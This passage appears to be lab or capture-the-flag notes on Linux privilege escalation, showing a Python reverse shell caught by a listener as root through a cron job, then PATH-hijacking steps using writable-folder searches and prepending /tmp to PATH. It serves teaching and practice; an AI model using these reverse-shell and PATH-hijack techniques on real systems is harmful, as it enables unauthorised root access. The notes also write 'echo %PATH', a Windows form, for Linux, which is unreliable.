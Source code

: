 \[\*] listening on 10.10.234.130:6666

* Run Python reverse shell code on target.

python3 /tmp/test.py

* Reverse shell caught by listener.
  * Cron job ran successfully as root.

accepted connection from 10.10.114.83 and port 33502

enter the commands below

whoami

root

/root$

### **Privilege Escalation: PATH** <a href="#iw19e8jn2h33" id="iw19e8jn2h33"></a>

* Can potentially hijack an application to run a script if a folder that the current user has write access to is located in the PATH.
* PATH is an environmental variable that tells the OS where to look for executables.
* Linux will search in folders defined in PATH for any command not built into the shell or not defined with an absolute path.

1. What folders are located under $PATH?

echo %PATH

1. Does the current user have write privileges for any of these folders?

find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u

* Refine find to get rid of the many results related to running processes.

find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

1. Can the current user modify $PATH?
   * Add /tmp folder to PATH.

export PATH=/tmp:$PATH

1. Is there a script or app that can be executed that will be affected by this vulnerability?

### **Challenge** <a href="#de1itenlekwe" id="de1itenlekwe"></a>

1. What folders are located under $PATH?

echo %PATH

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

1. Does the current user have write privileges for any of these folders?

find / -writable 2>/dev/null | cut -d "/" -f 2 | grep -v proc | sort -u

dev
